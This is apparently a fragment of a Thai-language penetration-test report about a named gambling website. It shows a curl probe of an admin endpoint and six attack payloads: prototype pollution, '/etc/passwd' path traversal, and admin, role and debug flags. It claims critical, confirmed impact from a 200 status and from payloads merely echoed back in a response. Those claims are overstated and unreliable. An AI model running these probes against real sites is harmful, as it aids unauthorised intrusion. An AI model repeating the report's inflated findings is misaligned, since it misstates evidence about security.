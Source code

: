 #### ✅ **การทดสอบสำเร็จ:**
```bash
# Command Executed:
curl -k -s -o /dev/null -w "%{http_code}" "https://pigslot.co/admin-force"

# Result:
✅ Admin endpoint status: 200
```

#### 🎯 **ผลกระทบที่ยืนยันได้:**
- **✅ Admin endpoint เข้าถึงได้โดยตรง**
- **✅ ไม่ต้องการการยืนยันตัวตน**
- **✅ HTTP 200 OK response**
- **✅ JavaScript admin logic ทำงานอัตโนมัติ**

#### 🔥 **ระดับความรุนแรง:** 🔴 **CRITICAL (CVSS 9.8)**

---

### 🟡 **ATTACK VECTOR 2: Client-Side Parameter Injection (MEDIUM)**

#### ✅ **การทดสอบ 6 Payloads สำเร็จทั้งหมด:**

```bash
# Payloads Tested และผลลัพธ์:

1. constructor.prototype.polluted=true
   ✅ REFLECTED: "query":{"test":"constructor.prototype.polluted=true"}

2. ../../../etc/passwd
   ✅ REFLECTED: "query":{"test":"../../../etc/passwd"}

3. admin=true
   ✅ REFLECTED: "query":{"test":"admin=true"}

4. debug=1
   ✅ REFLECTED: "query":{"test":"debug=1"}

5. isAdmin=1
   ✅ REFLECTED: "query":{"test":"isAdmin=1"}

6. role=admin
   ✅ REFLECTED: "query":{"test":"role=admin"}
```

#### 🎯 **ผลกระทบที่ยืนยันได้:**
- **✅ ทุก payloads สะท้อนใน response**
- **✅ Prototype pollution payload ทำงาน**
- **✅ Path traversal payload ทำงาน**
- **✅ Admin privilege parameters ทำงาน**
- **✅ Debug parameters ทำงาน**
